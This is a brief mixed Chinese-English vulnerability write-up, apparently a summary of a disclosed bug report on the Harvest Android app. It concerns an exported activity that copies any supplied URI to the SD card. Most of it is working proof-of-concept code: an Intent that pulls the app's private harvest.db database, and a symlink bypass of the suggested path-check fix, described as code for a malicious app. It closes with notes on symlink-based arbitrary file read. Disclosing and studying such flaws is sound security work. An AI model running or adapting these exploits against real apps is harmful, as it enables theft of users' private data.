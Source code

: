 # 组件-Harvest 

取回 /data/data/com.harvestapp/* 

com.harvestapp.app.EditExpenseActivity  导出

接受Url 指向 pdf 保存至SD卡

无 check 这个过程

所以可以指定任何Url 至

/sdcard/Android/data/com.harvestapp/files/<current time stamp>.pdf


stealing “ /data/data/com.harvestapp/databases/harvest.db” 的PoC

'''bash
	Intent intent = new Intent("android.intent.action.SEND");
	intent.setClassName("com.harvestapp", "com.harvestapp.app.EditExpenseActivity");
	intent.setType("application/pdf");
	intent.putExtra("android.intent.extra.STREAM", Uri.parse("file:///data/data/com.harvestapp/databases/harvest.db"));
	startActivity(intent);
'''

fix
if (uri.getPathSegments().contains("com.harvestapp")) {

it's bypass

'''
try {
            Runtime.getRuntime().exec("ln -s /data/data/com.harvestapp/databases/harvest.db /data/data/com.pwnharvest/pwn.db").waitFor();
        }
        catch(Exception e) {
            e.printStackTrace();
            finish();
            return;
        }
        new File("/data/data/com.pwnharvest/pwn.db").setReadable(true);
        Intent intent = new Intent("android.intent.action.SEND");
        intent.setClassName("com.harvestapp", "com.harvestapp.app.EditExpenseActivity");
        intent.setType("application/pdf");
        intent.putExtra("android.intent.extra.STREAM", Uri.parse("file:///data/data/com.pwnharvest/pwn.db"));
        startActivity(intent);
'''

where com.pwnharvest is package name of the malware

extra1:
使用android.accounts.AccountManager 可防止account take over

extra2:
通过symlinks进行任意文件读取是一个很有效的手段，
而且不需要root。
symlink到sdcard会有一些问题，但是symlink到 /data/data/pwntarget/目录没有问题
nice report.